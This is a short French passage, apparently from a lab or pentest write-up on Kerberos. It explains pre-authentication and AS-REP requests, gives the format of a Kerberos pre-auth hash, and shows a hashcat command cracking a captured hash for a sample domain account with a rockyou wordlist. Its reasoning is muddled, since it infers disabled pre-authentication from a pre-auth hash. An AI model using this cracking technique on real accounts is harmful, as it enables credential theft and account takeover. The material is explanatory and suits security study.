

> Si la pré-authentification est désactivée, n’importe qui peut demander un TGT au nom d’un compte, sans envoyer d’authentifiant, et le KDC renverra un `KRB_AS_REP` au demandeur.

Structure d'un hash`AS-REQ` l'hors d'une `Pre-Auth`

```c
$krb5pa$etype$username$domain$cipher
```


```sh
└─$ hashcat -a 0 -m 19900 hash.txt /opt/rockyou.txt --show

$krb5pa$18$william.dupond$catcorp.local$fc8bbe22b2c967b222ed73dd7616ea71b2ae0c1b0c3688bfff7fecffdebd4054471350cb6e36d3b55ba3420be6c0210b2d978d3f51d1eb4f:.........
```



> Donc la pré-authentification pour le compte de `william.dupond` a été désactiver
